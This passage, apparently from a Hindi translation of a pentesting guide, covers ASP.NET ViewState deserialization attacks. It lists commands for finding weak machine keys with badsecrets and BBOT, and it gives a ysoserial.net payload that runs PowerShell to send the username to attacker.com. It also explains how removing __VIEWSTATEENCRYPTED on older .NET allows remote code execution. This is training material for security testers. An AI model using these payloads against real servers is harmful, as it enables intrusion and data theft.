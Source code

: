 या, यह सीधे लक्षित URL से कनेक्ट कर सकता है और HTML से viewstate को निकालने की कोशिश कर सकता है:
```
pip install badsecrets
git clone https://github.com/blacklanternsecurity/badsecrets
cd badsecrets
python examples/blacklist3r.py --url http://vulnerablesite/vulnerablepage.aspx
```
![https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png](https://user-images.githubusercontent.com/24899338/227034654-e8ad9648-6c0e-47cb-a873-bf97623a0089.png)

कमजोर viewstates को बड़े पैमाने पर खोजने के लिए, उपडोमेन एन्यूमरेशन के साथ, `badsecrets` [**BBOT**](exploiting-\_\_viewstate-parameter.md) मॉड्यूल का उपयोग किया जा सकता है:
```
bbot -f subdomain-enum -m badsecrets -t evil.corp
```
![https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png](https://user-images.githubusercontent.com/24899338/227028780-950d067a-4a01-481f-8e11-41fabed1943a.png)

यदि आप भाग्यशाली हैं और कुंजी मिल जाती है, तो आप [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)**:** के साथ हमले को आगे बढ़ा सकते हैं।
```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```
In मामलों में जहाँ `_VIEWSTATEGENERATOR` पैरामीटर **सर्वर द्वारा नहीं भेजा गया** है, आपको **`--generator` पैरामीटर प्रदान करने की आवश्यकता नहीं है** बल्कि ये ones:
```bash
--apppath="/" --path="/hello.aspx"
```
### Test Case: 3 – .Net < 4.5 और EnableViewStateMac=true/false और ViewStateEncryptionMode=true

इसमें यह ज्ञात नहीं है कि क्या पैरामीटर MAC के साथ सुरक्षित है। तब, मान शायद एन्क्रिप्टेड है और आपको **अपनी पेलोड को एन्क्रिप्ट करने के लिए मशीन की आवश्यकता होगी** ताकि इस कमजोरियों का लाभ उठाया जा सके।

**इस मामले में** [**Blacklist3r**](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper) **मॉड्यूल विकासाधीन है...**

**.NET 4.5 से पहले**, ASP.NET **एक** **अनएन्क्रिप्टेड** \_`__VIEWSTATE`\_ पैरामीटर को उपयोगकर्ताओं से **स्वीकृत** कर सकता है **यहां तक कि** यदि **`ViewStateEncryptionMode`** को _**हमेशा**_ पर सेट किया गया है। ASP.NET **केवल** **`__VIEWSTATEENCRYPTED`** पैरामीटर की **उपस्थिति** की **जांच** करता है। **यदि कोई इस पैरामीटर को हटा देता है, और अनएन्क्रिप्टेड पेलोड भेजता है, तो इसे अभी भी संसाधित किया जाएगा।**

इसलिए यदि हमलावर किसी अन्य कमजोरियों जैसे फ़ाइल ट्रैवर्सल के माध्यम से मशीन की प्राप्त करने का तरीका खोज लेते हैं, तो [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) कमांड का उपयोग **केस 2** में किया गया, ViewState deserialization कमजोरियों का उपयोग करके RCE करने के लिए किया जा सकता है।

* ViewState deserialization कमजोरियों का लाभ उठाने के लिए अनुरोध से `__VIEWSTATEENCRYPTED` पैरामीटर को हटा दें, अन्यथा यह एक Viewstate MAC सत्यापन त्रुटि लौटाएगा और हमला विफल हो जाएगा।
